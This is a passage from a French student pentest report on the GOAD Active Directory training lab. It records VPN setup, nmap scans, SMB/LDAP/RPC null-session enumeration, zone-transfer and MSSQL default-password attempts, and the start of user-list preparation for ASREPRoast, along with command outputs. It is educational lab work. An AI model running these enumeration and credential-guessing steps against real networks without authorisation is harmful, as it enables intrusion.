



# 🏰 GOAD Pentest — Rapport
**Groupe projet :** Lilo, Alicia, Ilyan et Ayman  
**Date :** 2026-04-30  
**Cible :** Game of Active Directory (GOAD) Lab  
**Réseau cible :** 192.168.56.0/24 (via VPN lilo.ovpn → tun0 10.8.0.8)  
**Attaquant :** Kali Linux (VMware VMnet1) → VPN → serveur cloud GOAD  
**Statut global :** 🔴 CASTELBLACK Pwn3d! SYSTEM | 🟠 WINTERFELL accès user | 🟡 KINGSLANDING en cours

---

## 🧭 Présentation du projet

### Démarche générale

Ce projet consiste en un pentest complet du lab **GOAD (Game of Active Directory)**, déployé sur une infrastructure virtualisée et accessible via VPN. L'objectif est de cartographier le domaine, identifier les vulnérabilités d'Active Directory, exploiter les chaînes d'attaque (ASREPRoast, credentials en clair dans SYSVOL, Kerberoast, MSSQL RCE, élévation SYSTEM) et documenter chaque étape de manière reproductible.

### Répartition des tâches de l'équipe

| Membre | Rôle principal | Contributions |
|--------|---------------|---------------|
| **Lilo** | Lead pentest / Infra | Setup VPN + lab cloud, exploitation CASTELBLACK (jeor.mormont → SYSTEM via GodPotato), rédaction du rapport |
| **Alicia** | Recon & Enumération | Host discovery, scans Nmap, énumération SMB/LDAP/RPC null sessions, extraction users |
| **Ilyan** | Exploitation AD | ASREPRoast brandon.stark, crack John, analyse SYSVOL, Kerberoast, BloodHound |
| **Ayman** | Post-exploitation & Lateral | Dump SAM/LSA, MSSQL RCE, mouvements latéraux, crack DCC2 robb.stark |

### Solutions et choix techniques

| Domaine | Solution retenue | Avantages | Inconvénients |
|---------|------------------|-----------|---------------|
| **Lab cible** | GOAD (Orange-Cyberdefense) | Lab AD réaliste, multi-domaines avec trust, vulnérabilités pédagogiques connues | Lourd (RAM/CPU), setup long |
| **OS attaquant** | Kali Linux 2026 | Tous les outils pentest préinstallés, communauté active | Empreinte disque importante |
| **Accès réseau** | OpenVPN (lilo.ovpn → tun0) | Chiffré, simple à déployer, indépendant du LAN | Latence supplémentaire |
| **Recon** | Nmap + netexec (ex-CME) | Standard du marché, scripts NSE étendus, énumération SMB rapide | Nmap bruyant, détectable par IDS |
| **Énumération AD** | netexec, ldapsearch, rpcclient, BloodHound | Couverture complète (SMB/LDAP/Kerberos), visualisation des chemins d'attaque | BloodHound = collecte volumineuse, signature AV |
| **Cracking** | John the Ripper + rockyou.txt | Rapide sur AS-REP et NTLM, format flexible | Dépend de la qualité de la wordlist |
| **Exploitation** | impacket (GetNPUsers, GetUserSPNs, secretsdump), evil-winrm | De facto standard AD pentest, scriptable | Détecté par les EDR récents |
| **Élévation locale** | GodPotato | Fonctionne sur WS2019 avec SeImpersonatePrivilege | Patché sur versions récentes |
| **Documentation** | Markdown + Mermaid + export PDF (Chrome headless) | Lisible sur GitHub, versionnable, rendu propre en PDF | Diagrammes Mermaid non rendus dans le PDF actuel |

### Architecture du projet

```
┌──────────────────────────────────────────────────────────────────────┐
│                          INTERNET                                    │
└──────────────────────────────┬───────────────────────────────────────┘
                               │
                    ┌──────────▼──────────┐
                    │   Serveur Cloud     │
                    │   (héberge le lab)  │
                    └──────────┬──────────┘
                               │
                    ┌──────────▼──────────┐
                    │   Passerelle VPN    │
                    │     10.8.0.1        │
                    └──────────┬──────────┘
                               │ tun0 (OpenVPN)
                    ┌──────────▼──────────┐
                    │  Kali Linux (Attaq.)│
                    │   tun0 10.8.0.8     │
                    │  VMware VMnet1      │
                    └──────────┬──────────┘
                               │
                       192.168.56.0/24
        ┌──────────────────────┼──────────────────────┐
        │                      │                      │
┌───────▼────────┐    ┌────────▼───────┐    ┌─────────▼────────┐
│ KINGSLANDING   │    │  WINTERFELL    │    │   CASTELBLACK    │
│ 192.168.56.10  │◄──►│ 192.168.56.11  │◄──►│  192.168.56.22   │
│ DC Forest Root │    │ DC Child       │    │  Membre Server   │
│ sevenkingdoms  │    │ north.sevenk.. │    │  IIS + MSSQL     │
│ WS2019 + ADCS  │    │ WS2019         │    │  WS2019 (AV OFF) │
└────────────────┘    └────────────────┘    └──────────────────┘
       Trust forest bidirectionnel sevenkingdoms ↔ north
```



### Fichiers de logs et artefacts

Tous les logs et artefacts produits durant le projet sont versionnés dans le dépôt :

- **`log/Allcommand.txt`** — historique complet des commandes lancées sur Kali
- **`log/historique_total_kali.txt`** — historique bash brut de la session pentest
- **`ArchivePlan/`** — notes brutes par phase (recon, enum, exploit, post-exploit)
- **`ArchiveCapture/`** — captures d'écran horodatées de chaque étape clé
- **`img/`** — schémas (infrastructure, cartographie BloodHound)

> 📦 Toutes les sources sont disponibles dans le dépôt GitHub : <https://github.com/LiloBennardo/LabGOADLight.git>

---

## 📋 Sommaire

> ⚠️ **ORDRE CHRONOLOGIQUE RÉEL :** Phase 1 → Phase 3 (début : ASREPRoast + crack) → Phase 2 (enum avec creds) → Phase 3 (suite : exploitation) → Phase 4 → Phase 5

1. [Infrastructure & Setup](#setup)
2. [Phase 1 — Recon](#recon)
   - 1.1 Connexion VPN
   - 1.2 Host Discovery (ping sweep)
   - 1.3 Port Scan rapide (Fast scan)
   - 1.4 Port Scan complet avec OS et versions
   - 1.5 SMB Enum null session (netexec)
   - 1.6 LDAP Null Session
   - 1.7 RPC Null Session → **10 users obtenus ici**
   - 1.8 DNS Zone Transfer (tentative)
   - 1.9 HTTP Recon
   - 1.10 MSSQL default creds (tentative)
   - 1.11 Findings Recon
3. [Phase 3 début — Exploitation : ASREPRoast + crack](#exploit)
   - 3.1 Extraction et nettoyage liste users (depuis RPC 1.7)
   - 3.2 ASREPRoast → **hash brandon.stark récupéré ici**
   - 3.3 Crack John → **"iseedeadpeople" trouvé ici**
4. [Phase 2 — Enumération (avec brandon.stark:iseedeadpeople)](#enum)
   - 2.1 Validation brandon.stark sur SMB
   - 2.2 Enum SMB Shares avec brandon.stark
   - 2.3 SYSVOL Listing récursif
   - 2.4 Récupération et lecture des scripts SYSVOL → **jeor.mormont trouvé ici**
5. [Phase 3 suite — Exploitation : jeor.mormont → shell](#exploit-suite)
   - 3.4 Credentials en clair dans SYSVOL — jeor.mormont
   - 3.5 Validation creds jeor.mormont (SMB + WinRM)
   - 3.6 Shell evil-winrm CASTELBLACK
6. [Phase 4 — Post-Exploitation CASTELBLACK](#post-exploit)
   - 4.1 Enumération privilèges (whoami /priv)
   - 4.2 Enumération users et admins locaux
   - 4.3 Exploration filesystem
   - 4.4 Découverte réseau dual-homed
   - 4.5 Dump SAM (hashes locaux)
   - 4.6 Dump LSA (secrets + creds en clair)
   - 4.7 MSSQL RCE via sql_svc
   - 4.8 Elévation SYSTEM via GodPotato
   - 4.9 Kerberoast — SPNs et Constrained Delegation
7. [Phase 5 — Lateral Movement](#lateral)
   - 5.1 Tentatives avec credentials collectés
   - 5.2 Crack robb.stark DCC2
8. [Tableau credentials global](#creds)
9. [Carte d'attaque](#carte)
10. [Next Steps](#next)

---

## 🏗️ Infrastructure & Setup {#setup}

### Topologie

```
Kali Linux (VMware VMnet1)
  └── VPN lilo.ovpn → tun0 10.8.0.8
        └── Réseau GOAD 192.168.56.0/24
              ├── 192.168.56.1   Gateway Linux (Ubuntu)
              ├── 192.168.56.10  KINGSLANDING → DC sevenkingdoms.local
              ├── 192.168.56.11  WINTERFELL   → DC north.sevenkingdoms.local
              ├── 192.168.56.22  CASTELBLACK  → SRV membre north
              └── 192.168.56.100 Inconnu      → tous ports filtrés
```

### Tableau machines

| IP | Hostname | Domaine | OS | Rôle | Statut final |
|----|----------|---------|-----|------|-------------|
| 192.168.56.1 | Gateway | - | Ubuntu Linux | Gateway | Hors scope |
| 192.168.56.10 | KINGSLANDING | sevenkingdoms.local | WS2019 | DC Forest Root | 🟡 En cours |
| 192.168.56.11 | WINTERFELL | north.sevenkingdoms.local | WS2019 | DC Child | 🟠 Accès user |
| 192.168.56.22 | CASTELBLACK | north.sevenkingdoms.local | WS2019 | SRV membre | 🔴 Pwn3d! SYSTEM |
| 192.168.56.100 | Inconnu | - | - | - | ⚫ Filtré |

### Dossier de travail

```bash
# Création du dossier de travail sur le Desktop Kali
mkdir -p ~/Desktop/GOAD
cd ~/Desktop/GOAD
```

**Structure finale du dossier :**
```
~/Desktop/GOAD/
├── users_raw.txt        → output brut rpcclient
├── users_north.txt      → liste users nettoyée
├── hashes.asrep         → hash AS-REP brandon.stark
├── hashes.kerberoast    → hashes TGS sansa.stark, jon.snow, sql_svc
├── GodPotato.exe        → outil élévation SYSTEM
├── recon.txt            → output nmap complet
└── north.sevenkingdoms.local\scripts\
    ├── script.ps1       → credentials jeor.mormont en clair
    └── secret.ps1       → secret chiffré AES
```

---

## 🔍 Phase 1 — Recon {#recon}

> **Objectif :** Découvrir le périmètre sans credentials — hosts, ports, services, OS, premiers vecteurs.

---

### 1.1 Connexion VPN

**Pourquoi :** Le lab GOAD est sur un serveur cloud. Le fichier `lilo.ovpn` fourni par le prof donne accès au réseau 192.168.56.0/24 via un tunnel VPN.

**Problème initial :** Le fichier ovpn n'était pas trouvé car mal placé.

```bash
# Connexion VPN
sudo openvpn ~/lilo.ovpn
```

**Résultat :**
```
2026-04-30 05:17:11 net_iface_new: add tun0 type ovpn
2026-04-30 05:17:11 net_addr_v4_add: 10.8.0.8/24 dev tun0
2026-04-30 05:17:11 Initialization Sequence Completed
Data Channel: cipher 'AES-256-GCM'
```

**Vérification IP VPN :**
```bash
ip a show tun0
```
```
tun0: inet 10.8.0.8/24
```

**Ce que ça a permis :** Accès au réseau cible 192.168.56.0/24 via tunnel VPN chiffré AES-256-GCM.

---

### 1.2 Host Discovery (ping sweep)

**Pourquoi :** Avant de scanner les ports (lent), on identifie d'abord quelles machines sont actives avec un simple ping sweep. `-sn` = pas de scan de ports, juste vérifier si le host répond. Beaucoup plus rapide sur un /24.

```bash
nmap -sn 192.168.56.0/24
```

**Résultat :**
```
Nmap scan report for 192.168.56.1    → Host is up (0.016s latency)
Nmap scan report for 192.168.56.10   → Host is up (0.014s latency)
Nmap scan report for 192.168.56.11   → Host is up (0.027s latency)
Nmap scan report for 192.168.56.22   → Host is up (0.014s latency)
Nmap scan report for 192.168.56.100  → Host is up (0.014s latency)
Nmap done: 256 IP addresses (5 hosts up) scanned in 4.13 seconds
```

**Ce que ça a permis :** 5 hosts identifiés en 4 secondes → cibles confirmées pour la suite.

---

### 1.3 Port Scan rapide (Fast scan)

**Pourquoi :** Avant le scan complet, un fast scan `-F` (top 100 ports) donne une vue rapide. Première tentative avec plusieurs flags pour trouver le bon équilibre vitesse/discrétion.

**Tentatives et évolution :**

```bash
# Tentative 1 — trop lent (65535 ports × 256 IPs en T2)
nmap -sS -T2 -p- --open 192.168.56.0/24

# Tentative 2 — fast scan sur les hosts confirmés
nmap -T4 -F 192.168.56.10 192.168.56.11 192.168.56.22 192.168.56.100
```

**Pourquoi -sS (SYN scan) :**
```
Normal TCP (-sT) :  SYN → SYN/ACK → ACK  (connexion complète, loggée)
SYN scan  (-sS) :  SYN → SYN/ACK → RST  (connexion jamais établie, moins loggé)
→ Plus discret, plus rapide, nécessite sudo
```

**Ce que ça a permis :** Vue rapide des ports ouverts → confirmation des cibles pour scan approfondi.

---

### 1.4 Port Scan complet avec OS et versions

**Pourquoi :** Scan approfondi sur les 3 machines cibles pour identifier exactement les services, versions et OS. Ces infos déterminent les vecteurs d'attaque.

```bash
sudo nmap -T5 -sS -sV -O 192.168.56.0/24
```

**Options :**
| Flag | Rôle |
|------|------|
| `-T5` | Vitesse maximale (lab, pas de risque de détection) |
| `-sS` | SYN scan half-open (discret, rapide) |
| `-sV` | Détection version des services |
| `-O` | Détection OS |

**Résultat complet :**
```
Nmap scan report for 192.168.56.1 — Linux Ubuntu
  22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15
  111/tcp  open  rpcbind 2-4 (RPC #100000)
  2049/tcp open  nfs     3-4 (RPC #100003)
  OS: Linux 4.15 - 5.19

Nmap scan report for 192.168.56.10 — KINGSLANDING
  53/tcp   open  domain        Simple DNS Plus
  80/tcp   open  http          Microsoft IIS httpd 10.0
  88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: sevenkingdoms.local)
  445/tcp  open  microsoft-ds?
  464/tcp  open  kpasswd5?
  593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  636/tcp  open  ssl/ldap      Microsoft Windows AD LDAP (Domain: sevenkingdoms.local)
  3268/tcp open  ldap          Microsoft Windows AD LDAP (Global Catalog)
  3269/tcp open  ssl/ldap      Microsoft Windows AD LDAP (Global Catalog)
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
  5986/tcp open  ssl/wsmans?
  Host: KINGSLANDING | OS: Windows Server 2019 (94%)

Nmap scan report for 192.168.56.11 — WINTERFELL
  53/tcp   open  domain        Simple DNS Plus
  88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  389/tcp  open  ldap          Microsoft Windows AD LDAP (Domain: sevenkingdoms.local)
  445/tcp  open  microsoft-ds?
  464/tcp  open  kpasswd5?
  593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
  636/tcp  open  ssl/ldap
  3268/tcp open  ldap          Global Catalog
  3269/tcp open  ssl/ldap      Global Catalog
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
  5986/tcp open  ssl/wsmans?
  Host: WINTERFELL | OS: Windows Server 2019 (94%)

Nmap scan report for 192.168.56.22 — CASTELBLACK
  80/tcp   open  http          Microsoft IIS httpd 10.0
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds?
  1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (WinRM)
  5986/tcp open  ssl/wsmans?
  Host: CASTELBLACK | OS: Windows Server 2019 (94%)

Nmap scan report for 192.168.56.100
  All 1000 scanned ports → filtered (proto-unreach)
  → Hors scope ou éteint
```

**Ce que ça a permis :**
- 2 DCs identifiés (ports 88+389) → KINGSLANDING et WINTERFELL
- CASTELBLACK = serveur membre avec **MSSQL 2019 exposé** → cible prioritaire
- Port 5985 WinRM ouvert sur les 3 → shell à distance si creds
- Port 3389 RDP sur les 3 → brute force possible si nécessaire

---

### 1.5 SMB Enum null session (netexec)

**Pourquoi :** netexec SMB donne en une commande : hostname exact, domaine, version OS précise, et surtout **SMB signing** — si désactivé, la machine est vulnérable aux attaques NTLM relay (on peut intercepter et relayer l'authentification d'un user).

**Etape 1 — Sans credentials (null session) :**
```bash
netexec smb 192.168.56.10 192.168.56.11 192.168.56.22
```

**Résultat :**
```
SMB  192.168.56.10  445  KINGSLANDING  [*] Windows 10/Server 2019 Build 17763 x64
                                        (name:KINGSLANDING)(domain:sevenkingdoms.local)
                                        (signing:True)(SMBv1:False)
SMB  192.168.56.11  445  WINTERFELL    [*] Windows 10/Server 2019 Build 17763 x64
                                        (name:WINTERFELL)(domain:north.sevenkingdoms.local)
                                        (signing:True)(SMBv1:False)
SMB  192.168.56.22  445  CASTELBLACK   [*] Windows 10/Server 2019 Build 17763 x64
                                        (name:CASTELBLACK)(domain:north.sevenkingdoms.local)
                                        (signing:False)(SMBv1:False)  ← CRITIQUE
```

**Etape 2 — Test compte guest :**
```bash
netexec smb 192.168.56.10 192.168.56.11 192.168.56.22 -u guest -p ""
```

**Résultat :**
```
SMB  192.168.56.22  445  CASTELBLACK  [-] north.sevenkingdoms.local\guest: STATUS_ACCOUNT_DISABLED
SMB  192.168.56.11  445  WINTERFELL   [-] north.sevenkingdoms.local\guest: STATUS_ACCOUNT_DISABLED
SMB  192.168.56.10  445  KINGSLANDING [-] sevenkingdoms.local\guest: STATUS_ACCOUNT_DISABLED
```

**Ce que ça a permis :**
- **CASTELBLACK signing:False** → vulnérable NTLM relay (finding critique)
- KINGSLANDING + WINTERFELL signing:True → relay impossible sur les DCs
- Guest désactivé partout → pas d'accès anonyme SMB
- Domaines confirmés : sevenkingdoms.local (root) + north.sevenkingdoms.local (child)

---

### 1.6 LDAP Null Session

**Pourquoi :** Si les DCs acceptent des requêtes LDAP anonymes, on peut énumérer tous les users, groupes, GPOs, computers sans aucun credential. C'est une misconfiguration fréquente.

```bash
netexec ldap 192.168.56.10 192.168.56.11 -u '' -p ''
```

**Résultat :**
```
LDAP  192.168.56.11  389  WINTERFELL   [+] north.sevenkingdoms.local\: (bind accepté)
LDAP  192.168.56.11  389  WINTERFELL   [-] LdapErr: DSID-0C090A5C — requêtes bloquées
LDAP  192.168.56.10  389  KINGSLANDING [+] sevenkingdoms.local\: (bind accepté)
LDAP  192.168.56.10  389  KINGSLANDING [-] LdapErr: DSID-0C090A5C — requêtes bloquées
```

**Ce que ça a permis :** Bind anonyme accepté mais requêtes bloquées — il faudra des credentials pour enumérer via LDAP.

---

### 1.7 RPC Null Session → users énumérés

**Pourquoi :** RPC (port 135/139) permet via `enumdomusers` de lister tous les comptes du domaine. C'est une misconfiguration encore plus courante que LDAP — beaucoup de DCs acceptent encore les sessions RPC anonymes. C'est notre meilleur vecteur sans credentials pour avoir une liste d'users.

**Test sur KINGSLANDING :**
```bash
rpcclient -U "" -N 192.168.56.10 -c "enumdomusers"
```

**Résultat :**
```
result was NT_STATUS_ACCESS_DENIED
→ KINGSLANDING correctement configuré, refuse les sessions anonymes
```

**Test sur WINTERFELL :**
```bash
rpcclient -U "" -N 192.168.56.11 -c "enumdomusers"
```

**Résultat :**
```
user:[Guest] rid:[0x1f5]
user:[arya.stark] rid:[0x456]
user:[sansa.stark] rid:[0x45a]
user:[brandon.stark] rid:[0x45b]
user:[rickon.stark] rid:[0x45c]
user:[hodor] rid:[0x45d]
user:[jon.snow] rid:[0x45e]
user:[samwell.tarly] rid:[0x45f]
user:[jeor.mormont] rid:[0x460]
user:[sql_svc] rid:[0x461]
```

**Options utilisées :**
| Option | Rôle |
|--------|------|
| `-U ""` | Username vide = session anonyme |
| `-N` | No password (pas de prompt mot de passe) |
| `192.168.56.11` | IP de WINTERFELL |
| `-c "enumdomusers"` | Commande RPC à exécuter : liste les users du domaine |

**Ce que ça a permis :**
- WINTERFELL mal configuré → sessions RPC anonymes acceptées
- **10 comptes du domaine north.sevenkingdoms.local énumérés** sans aucun credential
- `sql_svc` identifié → compte de service MSSQL → candidat Kerberoast
- `jeor.mormont` identifié → on verra plus tard ses credentials en clair dans SYSVOL
- Liste complète pour ASREPRoast

---

### 1.8 DNS Zone Transfer (tentative)

**Pourquoi :** Un zone transfer DNS révèle toute la cartographie du réseau interne — tous les hostnames, IPs, sous-domaines. Souvent accessible sans auth sur des DCs mal configurés.

```bash
dig axfr @192.168.56.10 sevenkingdoms.local
dig axfr @192.168.56.11 north.sevenkingdoms.local
```

**Résultat :**
```
; Transfer failed.   (sur les deux DCs)
```

**Ce que ça a permis :** Rien — DCs correctement configurés, zone transfer refusé.

---

### 1.9 HTTP Recon

**Pourquoi :** Les ports 80 ouverts sur KINGSLANDING et CASTELBLACK peuvent exposer des applications web vulnérables, des pages d'admin, ou des infos sur l'infrastructure.

```bash
whatweb http://192.168.56.10
whatweb http://192.168.56.22
```

**Résultat :**
```
http://192.168.56.10 [200 OK] HTTPServer[Microsoft-IIS/10.0] IP[192.168.56.10]
                               Microsoft-IIS[10.0] Title[IIS Windows Server] X-Powered-By[ASP.NET]
http://192.168.56.22 [200 OK] HTTPServer[Microsoft-IIS/10.0] IP[192.168.56.22]
                               Microsoft-IIS[10.0] X-Powered-By[ASP.NET] (pas de titre)
```

**Ce que ça a permis :** Page défaut IIS sur les deux — pas d'app web évidente. CASTELBLACK sans titre → possible app custom à explorer. À approfondir avec gobuster (TODO).

---

### 1.10 MSSQL default creds (tentative)

**Pourquoi :** Le port 1433 MSSQL est ouvert sur CASTELBLACK. Les comptes par défaut `sa` (system administrator) sont souvent laissés avec des mots de passe simples ou vides. On teste d'abord sans `--local-auth` (domaine) puis avec (compte local).

**Sans --local-auth (authentification domaine) :**
```bash
netexec mssql 192.168.56.22 -u sa -p sa
netexec mssql 192.168.56.22 -u sa -p ""
netexec mssql 192.168.56.22 -u sa -p "Password1"
```

**Résultat :**
```
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] north.sevenkingdoms.local\sa:sa
                                          (Login failed for user 'CASTELBLACK\Guest'.
                                          Please try again with or without '--local-auth')
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] north.sevenkingdoms.local\sa:
                                          (Login failed for user 'CASTELBLACK\Guest'.
                                          Please try again with or without '--local-auth')
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] north.sevenkingdoms.local\sa:Password1
                                          (Login failed for user 'CASTELBLACK\Guest'.
                                          Please try again with or without '--local-auth')
```

**Avec --local-auth (compte local MSSQL) :**
```bash
netexec mssql 192.168.56.22 -u sa -p sa --local-auth
netexec mssql 192.168.56.22 -u sa -p "" --local-auth
netexec mssql 192.168.56.22 -u sa -p "Password1" --local-auth
```

**Résultat :**
```
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] CASTELBLACK\sa:sa → Login failed
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] CASTELBLACK\sa:  → Login failed
MSSQL  192.168.56.22  1433  CASTELBLACK  [-] CASTELBLACK\sa:Password1 → Login failed
```

**Ce que ça a permis :** Credentials par défaut MSSQL ne fonctionnent pas → MSSQL nécessite des credentials valides du domaine → à reprendre une fois des creds obtenus (cf. section 4.7).

---

### 1.11 Findings Recon

| # | Finding | Détail | Impact |
|---|---------|--------|--------|
| 1 | **CASTELBLACK SMB signing FALSE** | NTLM relay possible | 🔴 Critique |
| 2 | **RPC null session WINTERFELL** | 10 users énumérés sans creds | 🟠 Élevé |
| 3 | **sql_svc identifié** | Compte service MSSQL → Kerberoast | 🟠 Élevé |
| 4 | **MSSQL 2019 port 1433** | Default creds échoués mais accès possible avec creds | 🟠 Élevé |
| 5 | IIS sur .10 et .22 | Web app à explorer gobuster | 🟡 Moyen |
| 6 | Guest désactivé partout | Pas d'accès anonyme SMB | ℹ️ Info |
| 7 | DNS Zone Transfer bloqué | DCs bien configurés sur ce point | ℹ️ Info |
| 8 | LDAP anonyme bloqué | Bind OK mais requêtes refusées | ℹ️ Info |

---

## 💥 Phase 3 — Exploitation (début) : ASREPRoast + Crack {#exploit}

> **Objectif :** Avec la liste users obtenue via RPC (section 1.7), tenter l'ASREPRoast pour obtenir un premier credential valide du domaine.
>
> ✅ **C'est ici qu'on obtient brandon.stark:iseedeadpeople — AVANT toute enum avec creds.**

---

### 3.1 Extraction et nettoyage liste users (depuis RPC section 1.7)

**Pourquoi :** On a récupéré les users via rpcclient (section 1.7) mais le format brut contient des espaces parasites (`arya. stark` au lieu de `arya.stark`) et le compte Guest inutile. impacket-GetNPUsers a besoin d'une liste propre — un mauvais format ferait échouer les requêtes Kerberos silencieusement.

**Etape 1 — Récupération avec sauvegarde :**
```bash
rpcclient -U "" -N 192.168.56.11 -c "enumdomusers" 2>/dev/null \
| tee ~/Desktop/GOAD/users_raw.txt
```

**Résultat brut (users_raw.txt) :**
```
user:[Guest] rid:[0x1f5]
user:[arya.stark] rid:[0x456]
user:[sansa.stark] rid:[0x45a]
user:[brandon.stark] rid:[0x45b]
user:[rickon.stark] rid:[0x45c]
user:[hodor] rid:[0x45d]
user:[jon.snow] rid:[0x45e]
user:[samwell.tarly] rid:[0x45f]
user:[jeor.mormont] rid:[0x460]
user:[sql_svc] rid:[0x461]
```

**Etape 2 — Extraction des usernames uniquement :**
```bash
cat ~/Desktop/GOAD/users_raw.txt \
| grep -oP '(?<=\[)[^\]]+(?=\])' \
| grep -v '0x' > ~/Desktop/GOAD/users_north.txt
```

**Explication grep -oP :**
```
grep -oP '(?<=\[)[^\]]+(?=\])'
  -o         → affiche uniquement la partie qui correspond (pas toute la ligne)
  -P         → utilise les regex Perl
  (?<=\[)    → lookbehind : ce qui est après un [
